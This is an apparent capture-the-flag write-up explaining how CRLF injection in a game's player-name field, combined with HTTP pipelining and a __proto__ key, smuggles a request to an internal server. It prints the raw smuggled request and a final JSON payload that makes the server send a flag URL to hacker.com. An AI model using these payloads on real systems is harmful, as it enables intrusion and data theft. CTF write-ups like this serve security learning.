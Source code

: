 It's a really simple library and doesn't have any checks in it - it's vulnerable to CRLF injection! We can potentially have `\r\n` in our player name.

We can use this to connect to `127.0.0.1:80`. HTTP/1.1 supports request pipelining, i.e. it keeps TCP connection open across multiple requests. However we need to make sure no illegal request is sent. Otherwise the server returns a 400 and closes the connection.

We can now send the following request over:
```
incr / HTTP/1.1\r\n
Host: 127.0.0.1\r\n
\r\n
POST /multiplayer/newgame\r\n
Host: 127.0.0.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 31\r\n
\r\n
url=https%3A%2F%2Fhacker.com%2F\r\n
\r\n
 1\r\n
```

(although INCR is not a valid HTTP method, the golang server doesn't disconnect you... you can try this yourself by `curl -X INCR`)

Final payload: `{"x":"__proto__","y":"server","p":"127.0.0.1:80", "scoreboard_name": "/ HTTP/1.1\r\nHost: 127.0.0.1\r\n\r\nPOST /multiplayer/newgame HTTP/1.1\r\nHost: 127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 31\r\n\r\nurl=https%3A%2F%2Fhacker.com%2F\r\n\r\n"}`

We get a URL sent to our server. Visiting that URL returns a flag.
